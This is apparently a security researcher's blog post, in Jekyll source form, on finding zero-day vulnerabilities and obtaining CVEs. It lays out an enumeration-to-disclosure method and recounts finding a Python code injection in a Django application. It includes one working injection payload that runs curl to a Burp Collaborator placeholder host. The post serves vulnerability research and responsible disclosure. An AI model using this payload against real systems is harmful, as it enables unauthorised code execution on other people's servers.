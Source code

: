 ```yaml
---
layout: post
title: "From Discovery to Reward: How to Find Zero-Day Vulnerabilities, Sell Them, and Obtain CVEs"
description: "Today, we will explore a crucial topic in the world of offensive security: zero-day vulnerabilities."
date:   2024-06-11 11:01:35 +0300
image:  '/images/514.jpg'
tags:   [enumeration, exploitation, cve]
---
```


Hello, hackers! Today, we will explore a crucial topic in the world of offensive security: zero-day vulnerabilities. We will discuss how to conduct research to identify these vulnerabilities, methodologies to stay one step ahead, and how to sell your zero-day or request a CVE for a vulnerability.

But first, let's understand what a zero-day vulnerability is.

#### Zero-Day
A zero-day vulnerability is a flaw discovered by attackers or researchers before the vendor becomes aware of it. Since the vendors are not aware of this vulnerability, there is no patch available, making them a true lethal weapon for cyberattacks.

These vulnerabilities are highly sought after by malicious hackers because they can cause massive damage, affecting numerous companies that use the vulnerable technology. The impact can be devastating, compromising sensitive data, disrupting operations, and resulting in substantial financial losses.

### My Journey with Zero-Day Vulnerabilities
A year ago, I realized that an effective way to gain recognition and demonstrate my skills was to find zero-day vulnerabilities, as they could become CVEs attributed to me. With this in mind, I started researching methods to identify these vulnerabilities and eventually achieve my first CVEs. However, I found it challenging to find resources that guided me along this path.

I persisted, getting hands-on and using enumeration techniques to identify potential software for research. This effort resulted in my first CVEs. So far, I have obtained a total of seven, with the most critical being: [CVE-2023-2043] and [CVE-2023-2524]. Some of these vulnerabilities were also discovered through Bug Bounty programs.

### How to Find Zero-Day Vulnerabilities and How I Discovered a Critical Code Injection Vulnerability
#### Step-by-Step Process:
1. Software Enumeration: Research and identify promising software.
2. Existing Vulnerability Check: Consult databases like exploit-db and NIST to ensure the chosen software does not have cataloged vulnerabilities.
3. Environment Setup and Software Installation: Set up the testing environment on a virtual machine and install the software.
4. Testing Until Vulnerability Identification: Conduct thorough tests on the application to detect anomalous behaviors.
5. Global Technology Usage Verification: Evaluate the technological implementation to understand the potential impact of the vulnerability.
6. Report/PoC Creation: Document the vulnerability in detail and create a Proof of Concept (PoC).
7. Submission: Report the vulnerability to the developer or the responsible platform.

### Software Enumeration
To start enumerating some software, I used several research methods, such as:

* Google Search:
Examples: "download management software", "download automation software".
This helps identify popular software in various categories.

![]({{site.baseurl}}/images/700.jpg)

* GitHub:
Use specific tags and dorks to find relevant software.

![]({{site.baseurl}}/images/701.jpg)


* Mitre CVE List:
Search for types of vulnerabilities or any other keyword.
https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=software

![]({{site.baseurl}}/images/702.jpg)


I focused on finding one that could be run locally via the web. After identifying a promising software, I checked for any known vulnerabilities using exploit-db and NIST. Finding no cataloged vulnerabilities, I downloaded and installed the software on my computer (I recommend using a VM to avoid compromising the host system).

### Testing and Discovery of the Vulnerability
With the application running, I began testing as in a typical web pentest. I conducted various injection attempts, including XSS and SQL Injection, and rigorously tested the application's access controls. During the normal use of the application, I carefully observed the requests made with each action.

After an intense day of testing, I noticed a parameter with suspicious values: a Python list containing specific strings. Knowing that the application used the Django framework, I started to explore this potential vulnerability more deeply. Through a series of detailed tests, I identified a critical Python Code Injection vulnerability.

> Code injection occurs when an attacker can execute arbitrary commands on the system by injecting them into a vulnerable program. This vulnerability arises when an application transmits unsafe user data (e.g., forms, cookies, and HTTP headers) to a system shell. Common scenarios include passing unsanitized input directly to system commands.
>

#### Exploitation Example:
![]({{site.baseurl}}/images/703.jpg)

To identify the vulnerability, I used a payload that imported the os library and executed a curl command pointing to my Burp Collaborator. The payload used was:

{% highlight js %}
    eval(compile("""for x in range(1):\n import os\n os.popen(r'curl http://BURPCOLLABORATOR').read()""",'','single'))
{% endhighlight %}

I injected this payload into the suspicious parameter. Upon checking the Burp Collaborator, I confirmed the receipt of the request, validating the existence of the vulnerability.

![]({{site.baseurl}}/images/704.jpg)

![]({{site.baseurl}}/images/705.jpg)